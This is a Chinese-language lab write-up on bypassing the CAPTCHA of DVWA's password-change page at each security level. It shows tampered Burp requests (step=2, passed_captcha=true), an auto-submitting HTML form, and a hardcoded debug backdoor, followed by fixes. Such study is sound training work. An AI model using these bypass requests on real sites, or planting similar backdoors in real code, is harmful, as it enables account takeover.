

# CAPTCHA

改密码页面加了验证码。验证码本身没被破解，被绕过的是"验证状态怎么记录"这件事。

这个模块有个前置门槛：DVWA 用的是 Google reCAPTCHA，没配 key 页面只显示 `reCAPTCHA API key missing`，表单直接不显示。

## 先把 key 配上

配置文件在 `DVWA/config/config.inc.php`，两个字段：

```php
$_DVWA['recaptcha_public_key']  = '6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI';
$_DVWA['recaptcha_private_key'] = '6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe';
```

上面这两个是 Google 官方公开的测试 key，任何域名都能用，专门给开发调试的。填进去就能出验证码控件。



配不上也不影响学绕过逻辑，因为后三级的绕过根本不碰验证码本身。

## Low：step 参数决定一切

流程分两步：

```
step=1  → 填新密码 + 过验证码
step=2  → 真正的改密
```

问题在第二步：改密的时候没有再确认"这个人第一步到底过没过验证码"。

Burp 抓正常请求：

```
POST /dvwa/vulnerabilities/captcha/ HTTP/1.1
Cookie: security=low; PHPSESSID=xxxx

password_new=123456&password_conf=123456&g-recaptcha-response=xxx&Change=Change&step=1
```

把 `step=1` 改成 `step=2`，`g-recaptcha-response` 整个删掉：

```
password_new=123456&password_conf=123456&Change=Change&step=2
```

放行，密码改成功。验证码一次都没过。

第二种做法是本地写个表单，字段跟前端一样，`step` 设成 `2`，在已登录的浏览器里打开提交，效果一样。

```html
<form action="http://127.0.0.1/dvwa/vulnerabilities/captcha/" method="POST">
  <input type="hidden" name="password_new" value="123456">
  <input type="hidden" name="password_conf" value="123456">
  <input type="hidden" name="Change" value="Change">
  <input type="hidden" name="step" value="2">
  <input type="submit" value="Submit">
</form>
```

要害在于**业务流程的状态存在客户端**。`step` 是个隐藏字段，隐藏只是嘴上不说，用户照样能改。

## Medium：passed_captcha

Medium 想修 Low 的问题，加了个字段：

```
passed_captcha=true
```

服务端看到这个字段是 `true`，就认为验证码过了。

但它是客户端传上来的。Burp 里在请求体末尾加上这一句，直接过：

```
password_new=123456&password_conf=123456&Change=Change&passed_captcha=true
```

用 Repeater 发一次就行，不用重复抓包。

这一步的问题特别典型：**让客户端告诉服务端"我验过了"**。任何"我通过了"的自述都不能当凭证，凭证必须由服务端自己判定并存在服务端。

## High：一条硬编码后门

High 加强了 token 校验，但源码里留了一段调试用的判断：

```php
if ($resp || ($_POST['g-recaptcha-response'] == 'hidd3n_valu3'
              && $_SERVER['HTTP_USER_AGENT'] == 'reCAPTCHA')) {
    // 验证通过
}
```

两个条件同时满足就跳过真实验证：

```
g-recaptcha-response = hidd3n_valu3
User-Agent           = reCAPTCHA
```

Burp Repeater 里改两个地方：

```
POST /dvwa/vulnerabilities/captcha/ HTTP/1.1
User-Agent: reCAPTCHA
Cookie: security=high; PHPSESSID=xxxx

password_new=123456&password_conf=123456&g-recaptcha-response=hidd3n_valu3&Change=Change&user_token=你的token
```

`user_token` 还是得对。token 错了先刷新页面重新抓一次，只改 UA 和 `g-recaptcha-response` 两项。

**这一级我没有在本机跑通验证**，原因是没有真实可用的 reCAPTCHA 站点，前端提交流程不完整。上面的后门代码和条件来自 DVWA 源码说明和 DeepWiki 的项目文档，属于"读源码发现的问题"，不是我打出来的。

到这一级的价值不在绕过本身，在于它演示了一类真实存在的问题：**开发期的调试后门被带到了生产环境**。真实渗透里遇到这种，往往比正面突破更省时间，前提是你愿意逐行读源码。

## Impossible 为什么打不进去

1. 服务端拿 private key 自己向 Google 校验 `g-recaptcha-response`，不信客户端任何自述
2. 没有 `step` 这种客户端流程参数
3. 没有 `passed_captcha` 这种标记字段
4. 没有硬编码后门
5. 改密还要输当前密码

第 1 条是根本。验证结果只有服务端知道，客户端能提供的只有一个由 Google 签发的 token，伪造不了。

## 我卡住的地方

- 一开始页面只显示 key missing，以为是靶场坏了。查了 config 才明白要自己填 key。
- 试 Low 的时候第一次只删了 `g-recaptcha-response`，`step` 没改，失败。两个是一起的：跳过验证码的同时要直接进入第二步。
- High 一直调不通，最后接受"这一级是读源码得出的结论"，没有硬凑一个成功截图。写进笔记的时候也标清楚了。

## 怎么修

1. 验证码结果由服务端校验，private key 只在服务端。
2. 验证状态存服务端 Session，不要放隐藏字段。
3. 关键操作要求二次确认（当前密码、短信码），验证码不是唯一防线。
4. 上线前清掉所有调试代码和硬编码值，做一次源码审计。
5. 失败提示统一，别告诉攻击者是验证码错还是密码错。

## 参考来源

- High 等级的后门条件（`hidd3n_valu3` + `User-Agent: reCAPTCHA`）出自 DeepWiki 对 digininja/DVWA 项目的源码说明，我读了源码逻辑但未在本机完成验证。
- Low、Medium 两级为自己实测。
